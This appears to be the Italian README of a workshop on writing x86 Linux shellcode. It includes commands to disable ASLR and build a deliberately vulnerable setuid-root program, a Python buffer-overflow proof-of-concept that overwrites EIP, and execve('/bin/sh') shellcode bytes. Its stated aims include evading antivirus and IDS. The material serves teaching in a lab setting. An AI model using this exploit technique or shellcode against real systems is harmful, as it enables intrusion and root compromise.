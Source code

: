# x86 shellcoding cakestar

## Introduzione

Quando facciamo un penetration test, il più delle volte utilizziamo exploit già
pronti o usiamo strumenti come msvfenom per creare un payload con qualche
opzione particolare.

Esistono situazioni dove hai bisogno di essere più creativo: devi evitare
l'antivirus, devi nasconderti dall'IDS o semplicemente vuoi divertirti un po'
ed avere il pieno controllo del codice che sarà eseguito sulla macchina.

Ecco, in questo talk vedremo come creare 2 shellcode veramente semplici in
ambiente Linux x86 e, partendo da un codice funzionante, andremo ad aggiungere
tecniche di offuscamento, egg hunting e polimorfismo per far evolvere il nostro
payload.

Il bypass dell'antivirus forse non sarà garantito, ma il divertimento... quello
sì.

## A chi è rivolto?

Penetration tester Analisti SOC Sviluppatori

## Livello di difficoltà

BASSO

## Skill richieste

* Conoscenze base di assembler x86
* Sapere cos'è una _system call_
* Un pizzico di python o ruby o il linguaggio che più vi piace a cui accodare
  il nostro shellcode.

## Cosa mi serve

* Una macchina virtuale Linux per lo sviluppo (scriveremo assembler per x86, quindi a 32 bit).
  * Ubuntu 20.04
  * apt install apt install python3 gcc-multilib nasm gdb
  * peda: https://github.com/longld/peda
  * clonate l'archivio https://github.com/thesp0nge/HackInBoSafeEdition
  * Disabilito ASLR "echo 0 > /proc/sys/kernel/randomize_va_space"

## Preparo la vittima

Ho bisogno di compilare il programma vittima per iniziare le esercitazioni.

``` sh
$ ./compile.sh pwnme.c
$ sudo "chown root:root pwnme"
$ sudo "chmod +s pwnme"
```

## L'inizio della nostra storia

Da una analisi precedente sappiamo che il software pwnme è vulnerabile a buffer
overflow. Il contenuto del file pwnme.txt, necessario al funzionamento del
nostro tool, vieme copiato in una variabile, purtroppo senza fare un controllo
sulla lunghezza dei dati letti da file.

Nel caso il file di testo sia costituito da troppi caratteri, dopo 140 byte
avremmo la sovrascittura del registro EIP e di fatto, l'inizio della nostra
storia.

Il PoC del nostro exploit sarà questo:
``` python
#!/usr/bin/env python3

import os;

# 0x5655625c
eip="\x5c\x62\x55\x56"
shellcode = "A"*140+eip
f = open("pwnme.txt","w")
f.write(shellcode)
f.close()
```

### Disclaimer

Questo talk non è su come trovare un buffer overflow ma su come customizzare il
nostro shellcode. Il programma vulnerabile quindi è stato scritto introducendo
la vulnerabilità in maniera forzata, in particolare:

* è stato aggiunto dell'inline assembler per mettere a disposizione
  l'istruzione JMP ESP
* avendo disattivato la randomizzazione dello stack, ho il nuovo valore del
  registro EIP sempre fisso

## Shellcode

Andremo ad analizzare lo shellcode che esegue "/bin/sh" e queste saranno le tappe del nostro viaggio:
* v1.0: da dove arriva
   "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"?
* v2.0: manovre evasive!
* v2.1: diamoci dei privilegi
* v2.5: togliamo i null byte
* v3.0: nascondino

